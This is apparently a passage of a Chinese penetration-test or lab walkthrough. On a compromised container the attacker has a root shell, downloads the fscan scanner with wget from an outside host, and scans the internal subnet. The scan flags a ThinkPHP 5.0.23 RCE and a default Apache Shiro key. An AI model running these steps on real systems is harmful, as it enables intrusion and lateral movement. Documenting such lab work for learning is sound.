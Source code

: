 ```bash
(remote) root@31b77ed217da:/tmp# wget 192.168.200.129/fscan
--2024-07-25 03:10:17--  http://192.168.200.129/fscan
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7100304 (6.8M) [application/octet-stream]
Saving to: ‘fscan’

fscan                                               100%[===================================================================================================================>]   6.77M  --.-KB/s    in 0.04s

2024-07-25 03:10:17 (152 MB/s) - ‘fscan’ saved [7100304/7100304]

(remote) root@31b77ed217da:/tmp# chmod +x fscan
(remote) root@31b77ed217da:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.3  netmask 255.255.255.0  broadcast 192.168.100.255
        ether 02:42:c0:a8:64:03  txqueuelen 0  (Ethernet)
        RX packets 1023  bytes 15481580 (14.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 755  bytes 64521 (63.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

并执行网段扫描（结果已排除宿主机）

```plaintext
start infoscan
(icmp) Target 192.168.100.2   is alive
(icmp) Target 192.168.100.3   is alive
[*] Icmp alive hosts len is: 3
192.168.100.2:80 open
192.168.100.2:9000 open
192.168.100.3:8080 open
[*] alive ports len is: 6
start vulscan
[+] FCGI 192.168.100.2:9000
Status: 403 Forbidden
X-Powered-By: PHP/7.3.33
Content-type: text/html; charset=UTF-8

Access denied.
stderr:Access to the script '/etc/issue' has been denied (see security.limit_extensions)
plesa try other path,as -path /www/wwwroot/index.php
[*] WebTitle http://192.168.100.2      code:200 len:931    title:None
[*] WebTitle http://192.168.100.3:8080 code:302 len:0      title:None 跳转 url: http://192.168.100.3:8080/login;jsessionid=ECF003F339B02D6026C308A9C8B0E8C2
[*] WebTitle http://192.168.100.3:8080/login;jsessionid=ECF003F339B02D6026C308A9C8B0E8C2 code:200 len:2608   title:Login Page
[+] PocScan http://192.168.100.2 poc-yaml-thinkphp5023-method-rce poc1
[+] PocScan http://192.168.100.3:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
```
